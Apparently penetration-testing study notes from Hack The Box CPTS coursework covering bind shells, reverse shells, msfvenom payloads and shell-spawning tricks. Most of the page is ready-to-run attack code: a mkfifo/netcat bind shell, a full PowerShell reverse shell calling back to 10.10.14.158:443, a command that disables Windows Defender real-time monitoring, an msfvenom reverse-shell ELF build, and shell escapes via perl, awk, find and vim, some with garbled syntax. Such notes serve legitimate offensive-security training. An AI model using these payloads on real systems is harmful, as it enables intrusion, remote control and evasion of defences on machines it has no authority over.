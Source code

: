 # Bind Shells
![](picture_CPTS/bindshell.webp)
## connect server and client by netcat.
**1.SERVER  OPEN PORT 7777**
```shell
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
```
**2.CLIENT CONNECT TO SERVER BY PORT 7777**
```shell
015coding@htb[/htb]$ nc -nv 10.129.41.200 7777
Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```
**3.SERVER CONFIRM**
```shell
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!  
```
**4.CLIENT MESSAGE "HELLO WORLD"**
```shell
015coding@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
HELLO WORLD  
```
**5.SERVER RECEIVE MESSAGE**
```shell
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
HELLO WORLD  
```
## <mark style="background: #FFB86CA6;">BIND SHELL</mark>
**1.Target**
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
 `10.129.41.200` -> Target IP<br>
 **2.ATTACKER**
 ```shell
nc -nv 10.129.41.200 7777
```

# Reverse Shells
![](picture_CPTS/reverseshell.webp)
[reverse shell]([Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md))
## reverse shell
**1.Target**
```shell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

**2.Attacker**
```shell
sudo nc -lvnp 443
```

# Crafting Shells
use `msfvenom` to craft
```shell
msfvenom -l payloads
```
`-l` -> list payload <br>
and this is how to build
```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
`-p` -> select payload <br>
`-f` -> format file to export<br>
how to find what that request just go to Metasploit ,search and use `options`
## Spawning Interactive Shells
#### Interactive
```shell
/bin/sh -i
```
#### Prel
```perl
perl —e 'exec "/bin/sh";'
```

```perl
perl: exec "bin/bash";
```
#### Ruby
```ruby
ruby: exec "bin/bash";
```
#### Lua
```lua
lua: os.execute('bin/bash')
```
#### AWK
```c
awk 'BEGIN {system("/bin/sh")}'
```
#### Find
##### Using Find For A Shell
```shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```
##### Using Exec To Launch A Shell
```shell
find . -exec /bin/sh \; -quit
```
#### VIM
##### Vim to shell
```shell
vim -c ':!/bin/sh'
```
##### Vim to exec shell
```shell
vim
:set shell=/bin/sh
:shell
```
